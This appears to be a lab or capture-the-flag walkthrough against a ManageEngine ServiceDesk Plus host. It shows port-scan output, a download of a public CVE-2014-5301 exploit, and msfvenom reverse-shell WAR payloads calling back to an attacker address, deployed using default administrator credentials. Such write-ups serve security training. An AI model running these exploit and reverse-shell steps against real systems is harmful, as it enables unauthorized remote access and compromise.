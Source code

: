### rustscan as always
`docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP`

Open 192.168.200.43:3389
Open 192.168.200.43:8080
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 3389,8080 192.168.200.43

### Nmap
```bash
❯ sudo nmap -sV -sS -sC -A $IP -p3389,8080

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
|_http-server-header: Apache-Coyote/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   288.15 ms 192.168.49.1
2   289.15 ms 192.168.200.43
```

### Let's start on 8080 since nothing else literally
`searchsploit ManageEngine ServiceDesk Plus`

http://192.168.200.43:8080/images/boot.ini

### Google RCE directly as it's a 10 points machine
exploit ManageEngine ServiceDesk 7.6

https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py

`wget https://raw.githubusercontent.com/PeterSufliarsky/exploits/master/CVE-2014-5301.py`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.200 LPORT=8080 -f war -o reverse.war <- wrong since war belong to JAVA

msfvenom -p java/shell_reverse_tcp LHOST=192.168.49.200 LPORT=4444 -f war > shell.war

sudo python3 CVE-2014-5301.py 192.168.200.43 8080 administrator administrator shell.war
```